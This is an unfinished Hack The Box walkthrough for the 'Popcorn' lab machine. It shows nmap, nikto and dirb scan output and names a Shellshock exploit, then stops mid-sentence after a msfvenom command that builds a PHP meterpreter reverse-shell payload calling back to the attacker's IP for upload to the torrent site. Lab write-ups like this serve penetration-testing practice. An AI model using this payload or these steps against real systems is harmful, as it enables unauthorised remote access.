





<head>
<link rel="stylesheet" href="css/retro.css">
</head>

## HTB-Popcorn (10.10.10.6) - Not completed
----
### Summary

----
### Scanning/Enumeration
---
#### nmap 
```
sudo nmap -T4 -A 10.10.10.6
Password:
Sorry, try again.
Password:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-15 17:36 MDT
Nmap scan report for 10.10.10.6
Host is up (0.058s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=3/15%OT=22%CT=1%CU=41941%PV=Y%DS=2%DC=T%G=Y%TM=5E6EBC0
OS:0%P=x86_64-apple-darwin19.0.0)SEQ(SP=CE%GCD=1%ISR=D1%TI=Z%CI=Z%II=I%TS=8
OS:)OPS(O1=M54DST11NW6%O2=M54DST11NW6%O3=M54DNNT11NW6%O4=M54DST11NW6%O5=M54
OS:DST11NW6%O6=M54DST11)WIN(W1=16A0%W2=16A0%W3=16A0%W4=16A0%W5=16A0%W6=16A0
OS:)ECN(R=Y%DF=Y%T=40%W=16D0%O=M54DNNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+
OS:%F=AS%RD=0%Q=)T2(R=N)T3(R=Y%DF=Y%T=40%W=16A0%S=O%A=S+%F=AS%O=M54DST11NW6
OS:%RD=0%Q=)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=
OS:0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T
OS:7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN
OS:=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 23/tcp)
HOP RTT      ADDRESS
1   55.72 ms 10.10.14.1
2   55.80 ms 10.10.10.6

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.92 seconds
```
#### nikto

```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.6
+ Target Hostname:    10.10.10.6
+ Target Port:        80
+ Start Time:         2020-03-15 18:12:05 (GMT-6)
---------------------------------------------------------------------------
+ Server: Apache/2.2.12 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, inode: 43621, size: 177, mtime: Fri Mar 17 11:07:05 2017
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.2.12 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.html
+ Retrieved x-powered-by header: PHP/5.2.10-2ubuntu6.10
+ /test: Output from the phpinfo() function was found.
+ OSVDB-112004: /test: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
+ OSVDB-112004: /test: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278).
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ /test.php?%3CSCRIPT%3Ealert('Vulnerable')%3C%2FSCRIPT%3E=x: Output from the phpinfo() function was found.
+ /test/: Output from the phpinfo() function was found.
+ OSVDB-3092: /test/: This might be interesting...
+ /test/jsp/buffer1.jsp: Output from the phpinfo() function was found.
+ /test/jsp/buffer2.jsp: Output from the phpinfo() function was found.
+ /test/jsp/buffer3.jsp: Output from the phpinfo() function was found.
+ /test/jsp/buffer4.jsp: Output from the phpinfo() function was found.
+ /test/jsp/declaration/IntegerOverflow.jsp: Output from the phpinfo() function was found.
+ /test/jsp/extends1.jsp: Output from the phpinfo() function was found.
+ /test/jsp/extends2.jsp: Output from the phpinfo() function was found.
+ /test/jsp/Language.jsp: Output from the phpinfo() function was found.
+ /test/jsp/pageAutoFlush.jsp: Output from the phpinfo() function was found.
+ /test/jsp/pageDouble.jsp: Output from the phpinfo() function was found.
+ /test/jsp/pageExtends.jsp: Output from the phpinfo() function was found.
+ /test/jsp/pageImport2.jsp: Output from the phpinfo() function was found.
+ /test/jsp/pageInfo.jsp: Output from the phpinfo() function was found.
+ /test/jsp/pageInvalid.jsp: Output from the phpinfo() function was found.
+ /test/jsp/pageIsErrorPage.jsp: Output from the phpinfo() function was found.
+ /test/jsp/pageIsThreadSafe.jsp: Output from the phpinfo() function was found.
+ /test/jsp/pageSession.jsp: Output from the phpinfo() function was found.
+ /test/realPath.jsp: Output from the phpinfo() function was found.
+ /test.php: Output from the phpinfo() function was found.
+ OSVDB-3233: /test.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.
+ /test/phpinfo.php: Output from the phpinfo() function was found.
+ OSVDB-3233: /test/phpinfo.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.
+ /test/phpinfo.php3: Output from the phpinfo() function was found.
+ OSVDB-3233: /test/phpinfo.php3: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.
+ /test/test.php: Output from the phpinfo() function was found.
+ OSVDB-3233: /test/test.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.
+ /test/info.php: Output from the phpinfo() function was found.
+ OSVDB-3233: /test/info.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.
+ /test/index.php: Output from the phpinfo() function was found.
+ OSVDB-3233: /test/index.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.
+ /test/php_info.php: Output from the phpinfo() function was found.
+ OSVDB-3233: /test/php_info.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-3092: /test.php: This might be interesting...
+ 8312 requests: 2 error(s) and 50 item(s) reported on remote host
+ End Time:           2020-03-15 18:21:32 (GMT-6) (567 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

#### dirb
```-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Mar 16 19:28:13 2020
URL_BASE: http://10.10.10.6/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.6/ ----
+ http://10.10.10.6/cgi-bin/ (CODE:403|SIZE:286)                                                                                
+ http://10.10.10.6/index (CODE:200|SIZE:177)                                                                                   
+ http://10.10.10.6/index.html (CODE:200|SIZE:177)                                                                              
+ http://10.10.10.6/server-status (CODE:403|SIZE:291)                                                                           
+ http://10.10.10.6/test (CODE:200|SIZE:47330)                                                                                  
==> DIRECTORY: http://10.10.10.6/torrent/                                                                                       
                                                                                                                                
---- Entering directory: http://10.10.10.6/torrent/ ----
==> DIRECTORY: http://10.10.10.6/torrent/admin/                                                                                 
+ http://10.10.10.6/torrent/browse (CODE:200|SIZE:9278)                                                                         
+ http://10.10.10.6/torrent/comment (CODE:200|SIZE:936)                                                                         
+ http://10.10.10.6/torrent/config (CODE:200|SIZE:0)                                                                            
==> DIRECTORY: http://10.10.10.6/torrent/css/                                                                                   
==> DIRECTORY: http://10.10.10.6/torrent/database/                                                                              
+ http://10.10.10.6/torrent/download (CODE:200|SIZE:0)                                                                          
+ http://10.10.10.6/torrent/edit (CODE:200|SIZE:0)                                                                              
==> DIRECTORY: http://10.10.10.6/torrent/health/                                                                                
+ http://10.10.10.6/torrent/hide (CODE:200|SIZE:3765)                                                                           
==> DIRECTORY: http://10.10.10.6/torrent/images/                                                                                
+ http://10.10.10.6/torrent/index (CODE:200|SIZE:11356)                                                                         
+ http://10.10.10.6/torrent/index.php (CODE:200|SIZE:11356)                                                                     
==> DIRECTORY: http://10.10.10.6/torrent/js/                                                                                    
==> DIRECTORY: http://10.10.10.6/torrent/lib/                                                                                   
+ http://10.10.10.6/torrent/login (CODE:200|SIZE:8367)                                                                          
+ http://10.10.10.6/torrent/logout (CODE:200|SIZE:182)                                                                          
+ http://10.10.10.6/torrent/preview (CODE:200|SIZE:28104)                                                                       
==> DIRECTORY: http://10.10.10.6/torrent/readme/                                                                                
+ http://10.10.10.6/torrent/rss (CODE:200|SIZE:1692)                                                                            
+ http://10.10.10.6/torrent/secure (CODE:200|SIZE:4)                                                                            
+ http://10.10.10.6/torrent/stylesheet (CODE:200|SIZE:321)                                                                      
==> DIRECTORY: http://10.10.10.6/torrent/templates/                                                                             
+ http://10.10.10.6/torrent/thumbnail (CODE:200|SIZE:1789)                                                                      
==> DIRECTORY: http://10.10.10.6/torrent/torrents/                                                                              
==> DIRECTORY: http://10.10.10.6/torrent/upload/                                                                                
+ http://10.10.10.6/torrent/upload_file (CODE:200|SIZE:0)                                                                       
==> DIRECTORY: http://10.10.10.6/torrent/users/                                                                                 
                                                                                                                                
---- Entering directory: http://10.10.10.6/torrent/admin/ ----
+ http://10.10.10.6/torrent/admin/admin (CODE:200|SIZE:2988)                                                                    
+ http://10.10.10.6/torrent/admin/admin.php (CODE:200|SIZE:2988)                                                                
==> DIRECTORY: http://10.10.10.6/torrent/admin/images/                                                                          
+ http://10.10.10.6/torrent/admin/index (CODE:200|SIZE:80)                                                                      
+ http://10.10.10.6/torrent/admin/index.php (CODE:200|SIZE:80)                                                                  
==> DIRECTORY: http://10.10.10.6/torrent/admin/templates/                                                                       
+ http://10.10.10.6/torrent/admin/users (CODE:200|SIZE:80)                                                                      
                                                                                                                                
---- Entering directory: http://10.10.10.6/torrent/css/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                
---- Entering directory: http://10.10.10.6/torrent/database/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                
---- Entering directory: http://10.10.10.6/torrent/health/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                
---- Entering directory: http://10.10.10.6/torrent/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                
---- Entering directory: http://10.10.10.6/torrent/js/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                
---- Entering directory: http://10.10.10.6/torrent/lib/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                
---- Entering directory: http://10.10.10.6/torrent/readme/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                
---- Entering directory: http://10.10.10.6/torrent/templates/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                
---- Entering directory: http://10.10.10.6/torrent/torrents/ ----
+ http://10.10.10.6/torrent/torrents/index (CODE:200|SIZE:0)                                                                    
+ http://10.10.10.6/torrent/torrents/index.php (CODE:200|SIZE:0)                                                                
                                                                                                                                
---- Entering directory: http://10.10.10.6/torrent/upload/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                
---- Entering directory: http://10.10.10.6/torrent/users/ ----
+ http://10.10.10.6/torrent/users/change_password (CODE:200|SIZE:80)                                                            
+ http://10.10.10.6/torrent/users/forgot_password (CODE:200|SIZE:7917)                                                          
+ http://10.10.10.6/torrent/users/img (CODE:200|SIZE:701)                                                                       
+ http://10.10.10.6/torrent/users/index (CODE:200|SIZE:80)                                                                      
+ http://10.10.10.6/torrent/users/index.php (CODE:200|SIZE:80)                                                                  
+ http://10.10.10.6/torrent/users/registration (CODE:200|SIZE:8175)                                                             
==> DIRECTORY: http://10.10.10.6/torrent/users/templates/                                                                       
                                                                                                                                
---- Entering directory: http://10.10.10.6/torrent/admin/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                
---- Entering directory: http://10.10.10.6/torrent/admin/templates/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                
---- Entering directory: http://10.10.10.6/torrent/users/templates/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Mon Mar 16 19:52:41 2020
DOWNLOADED: 23060 - FOUND: 34
```

#### http
http://10.10.10.6/


http://10.10.10.6/test/


Wappalyzer output - http://10.10.10.6/torrent/ 


Login - http://10.10.10.6/torrent/ 

### Vulnerabilities
---

```
* Apache mod_cgi - 'Shellshock' Remote Command Injection  | exploits/linux/remote/34900.py
```
### Exploits
---
I first tried the Apache mod_cgi - 'Shellshock' Remote Command Injection with no success.
The login - http://10.10.10.6/torrent/ ...looks like we can sign-up for an account!
* user name: test
* password: test
* email: test@test.com



We're in as test users, we can browse the directory and have access to upload files.


Let's create a msfvenon php package...
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.14.24 LPORT=4447 -f raw > poison.php
```
Some digging around and hints, it looks like I can upload a random torrent file. Once uploaded I can then upload my 
